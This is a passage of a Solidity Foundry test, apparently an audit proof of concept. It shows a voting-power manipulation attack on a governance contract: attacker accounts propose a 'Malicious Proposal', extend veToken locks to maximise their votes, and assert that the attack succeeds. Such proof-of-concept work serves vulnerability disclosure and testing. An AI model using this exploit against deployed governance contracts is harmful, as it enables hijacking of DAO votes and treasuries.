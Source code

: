```solidity 
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        targets[0] = address(timelock);
        values[0] = 0;
        calldatas[0] = abi.encodeWithSignature("maliciousAction()");
​
        vm.prank(attackerAccounts[0]);
        uint256 proposalId = governance.propose(
            targets,
            values,
            calldatas,
            "Malicious Proposal",
            IGovernance.ProposalType.TreasuryAction
        );
​
        emit log_string("\n=== Phase 3: Execute Voting Attack ===");
        
        // Move to voting period
        vm.warp(block.timestamp + governance.votingDelay() + 1);
​
        // First vote with attacker0's max power
        vm.prank(attackerAccounts[0]);
        governance.castVote(proposalId, true);
​
        (uint256 initialVotes,) = governance.getVotes(proposalId);
        emit log_named_uint("Initial votes", initialVotes);
​
        // Other accounts extend their locks to max duration before voting
        for(uint i = 1; i < attackerAccounts.length; i++) {
            vm.startPrank(attackerAccounts[i]);
            // Calculate extension needed (1460 - 365 = 1095 days)
            uint256 extensionDays = 1095 days;
            veToken.extend(extensionDays); // Extend to max duration
            governance.castVote(proposalId, true);
            vm.stopPrank();
​
            (uint256 currentVotes,) = governance.getVotes(proposalId);
            emit log_named_uint(
                string.concat("Votes after account ", vm.toString(i), " with max lock"),
                currentVotes
            );
        }
​
        emit log_string("\n=== Phase 4: Attack Results ===");
        
        // Get final vote counts
        (uint256 finalVotes,) = governance.getVotes(proposalId);
        
        emit log_named_uint("Initial votes", initialVotes);
        emit log_named_uint("Final votes", finalVotes);
        emit log_named_uint("Vote multiplier achieved", finalVotes / initialVotes);
​
        // Check quorum manipulation
        uint256 initialQuorum = governance.quorum();
        vm.warp(block.timestamp + 30 days);
        uint256 finalQuorum = governance.quorum();
        
        emit log_named_uint("Initial quorum", initialQuorum);
        emit log_named_uint("Final quorum", finalQuorum);
​
        // Verify attack success
        assertTrue(
            finalVotes > initialVotes * 2,
```